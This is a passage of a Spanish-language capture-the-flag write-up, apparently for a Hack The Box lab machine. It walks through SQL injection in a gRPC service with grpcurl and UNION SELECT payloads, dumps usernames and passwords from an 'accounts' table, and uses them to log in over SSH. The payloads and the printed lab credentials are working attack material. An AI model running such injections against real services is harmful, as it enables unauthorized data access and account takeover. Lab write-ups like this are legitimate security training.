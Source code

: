 Si intentamos utilizar `UNION` para cambiar la respuesta, ¡funciona!

```bash
❯ grpcurl -plaintext -H 'Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdGluZyIsImV4cCI6MTY5NjU2NjUwOH0.nXOFW_82d5vK-tX3I0xSq9R5-KlS24WrTX84Uz5B8uc' -d "{\"id\":\"4 UNION SELECT 'pwned' -- -\"}" 10.10.11.214:50051 SimpleApp.getInfo
{
  "message": "pwned"
}
```

Probando por funciones típicas de MySQL/MariaDB/PostgreSQL no parece funcionar, por lo que podemos creer que estamos ante un gRPC que utiliza una base de datos H2/SQLite para manejar los datos; asi que vamos a usar intuición para obtener las tablas que nos interesen.

Hemos visto que hay un método de registro y autenticación, ¿habrá más usuarios que se hayan registrado? eso tenlo por seguro; asi que vamos a ver. Intentando adivinar la tabla que almacena los usuarios nos toparemos con que se llama "accounts"

```bash
❯ grpcurl -plaintext -H 'Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdGluZyIsImV4cCI6MTY5NjU2NjUwOH0.nXOFW_82d5vK-tX3I0xSq9R5-KlS24WrTX84Uz5B8uc' -d "{\"id\":\"4 UNION SELECT 'pwned' FROM accounts -- -\"}" 10.10.11.214:50051 SimpleApp.getInfo
{
  "message": "pwned"
}
```

Los nombres de las columnas probablemente sean `username` y `password`, o uno de sus sinonimos/abreviaciones; probando por lo previamente dicho acertamos:

```bash
grpcurl -plaintext -H 'Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdGluZyIsImV4cCI6MTY5NjU2NjUwOH0.nXOFW_82d5vK-tX3I0xSq9R5-KlS24WrTX84Uz5B8uc' -d "{\"id\":\"4 UNION SELECT username || ':' || password FROM accounts -- -\"}" 10.10.11.214:50051 SimpleApp.getInfo
{
  "message": "admin:admin"
}
```

Indagando por cosas más interesantes respecto a usuarios, encontramos esto:

```bash
❯ grpcurl -plaintext -H 'Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdGluZyIsImV4cCI6MTY5NjU2NjUwOH0.nXOFW_82d5vK-tX3I0xSq9R5-KlS24WrTX84Uz5B8uc' -d "{\"id\":\"4 UNION SELECT username || ':' || password FROM accounts LIMIT 1,1 -- -\"}" 10.10.11.214:50051 SimpleApp.getInfo
{
  "message": "sau:HereIsYourPassWord1431"
}
```

Estas credenciales son válidas para acceder por SSH, y en el directorio personal de esta persona podremos ver la primera flag.

```bash
❯ /usr/bin/ssh sau@10.10.11.214
sau@10.10.11.214s password: 
Last login: Thu Oct  5 14:48:28 2023 from 10.10.14.91
sau@pc:~$ ls -la
total 1244
drwxr-xr-x 5 sau  sau     4096 Oct  5 14:09 .
drwxr-xr-x 3 root root    4096 Jan 11  2023 ..
lrwxrwxrwx 1 root root       9 Jan 11  2023 .bash_history -> /dev/null
-rw-r--r-- 1 sau  sau      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 sau  sau     3771 Feb 25  2020 .bashrc
drwx------ 2 sau  sau     4096 Jan 11  2023 .cache
drwx------ 3 sau  sau     4096 Oct  5 14:43 .gnupg
-rw-r--r-- 1 sau  sau      807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root       9 Jan 11  2023 .viminfo -> /dev/null
drwx------ 3 sau  sau     4096 Oct  5 14:08 snap
```